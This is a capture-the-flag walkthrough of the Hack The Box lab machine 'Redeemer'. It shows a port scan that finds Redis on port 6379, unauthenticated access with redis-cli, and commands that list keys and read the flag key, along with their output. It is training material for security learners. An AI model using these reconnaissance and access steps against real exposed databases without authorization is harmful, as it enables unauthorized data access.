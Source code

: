 # [Redeemer](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.224.31

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In conclusion we are able to establish a connection between our lab with the target.

**Command 1** -

`ping 10.129.224.31`

**Output** -

```
PING 10.129.224.31 (10.129.224.31) 56(84) bytes of data.
64 bytes from 10.129.224.31: icmp_seq=1 ttl=62 time=231 ms
64 bytes from 10.129.224.31: icmp_seq=2 ttl=62 time=2451 ms
64 bytes from 10.129.224.31: icmp_seq=3 ttl=62 time=1669 ms
64 bytes from 10.129.224.31: icmp_seq=4 ttl=62 time=629 ms
64 bytes from 10.129.224.31: icmp_seq=5 ttl=62 time=233 ms
^C
--- 10.129.224.31 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4092ms
rtt min/avg/max/mdev = 231.025/1042.565/2451.337/878.880 ms, pipe 3
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is service named as redis on port 6379/tcp. Now we can try accessing the redis database. 

**Command 2** -

`nmap -sV 10.129.224.31 -p 6200-6400`

**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-18 13:40 IST
Nmap scan report for 10.129.224.31
Host is up (0.56s latency).
Not shown: 200 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.05 seconds
```

### Foothold

Now we tried to access the redis database on the target machine using the redis-cli and finally got the access to the database.

**Command 3** -

`redis-cli -h 10.129.224.31`

**Output** -

`10.129.224.31:6379> `

Using the info command to find out the all information about the database. In conclusion we got the information of the database and also got to now that there are 4 keys present on the database.

**Command 4** -

`info`

**Output** -

```
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:749
run_id:8dbc9546e46d5a9958f01003694825effe8903d6
tcp_port:6379
uptime_in_seconds:1432
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:10014471
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:4
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5754880
used_memory_rss_human:5.49M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.00%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1590168
allocator_active:1937408
allocator_resident:9158656
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.22
allocator_frag_bytes:347240
allocator_rss_ratio:4.73
allocator_rss_bytes:7221248
rss_overhead_ratio:0.63
rss_overhead_bytes:-3403776
mem_fragmentation_ratio:7.04
mem_fragmentation_bytes:4937264
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1721289972
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:417792
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:7
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:320
total_net_output_bytes:14869
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:227
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:3060ca832a136b1d0e361dd687a5de8942fee07e
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.914337
used_cpu_user:0.581574
used_cpu_sys_children:0.001011
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
(0.81s)
```

Here we are running the command to find out all the keys present in the database and find out the flag key which is the final flag of the target machine.

**Command 5** - 

`keys *`

**Output** -

```
1) "stor"
2) "numb"
3) "flag"
4) "temp"
```

Accessing the flag key using the get command.

**Command 6** -

`get flag`

**Output** -

`"the flag digits (won't tell you ^_^)"`


### This machine has been pawned.

~goobar07
